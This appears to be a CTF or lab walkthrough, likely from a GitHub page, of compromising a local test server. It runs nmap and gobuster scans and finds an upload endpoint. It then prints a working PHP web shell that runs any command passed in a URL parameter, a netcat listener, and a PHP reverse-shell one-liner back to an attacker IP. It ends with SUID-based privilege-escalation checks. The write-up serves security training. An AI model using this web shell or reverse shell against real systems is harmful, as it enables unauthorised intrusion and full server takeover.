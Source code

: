 `nmap 192.168.100.0/24`

Continue by using _Gobuster_ to try and dig deeper into the website and it's directories to find out more information about it.

`gobuster dir -u http://192.168.100.100 -w /usr/share/wordlists/dirb/common.txt`

_Endpoint_ in the form of "_/upload.php_, which could indicate a potential vulnerability if the upload functionality is not properly secured, as it might allow an attacker to upload and execute malicious files, leading to further exploitation of the server.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Continue by going back to the terminal window to start a listener

`nc -lvp 2222`
Now, let's use this script to gain a reverse shell using the simple web-based command execution interface we created earlier.
```php
php -r '$sock=fsockopen("192.168.100.101",2222);exec("/bin/bash <&3 >&3 2>&3");'
```

Now, using `sudo -l` we can see if there's any sort of `sudo` command we can run in order to escalate privileges to root.
Let's check if the SUID bit is set for the find command by using the command `find / -perm -4000 2>/dev/null`
Looking at the output, it confirms that the SUID bit is indeed set. Meaning we can use the find command to escalate privileges.
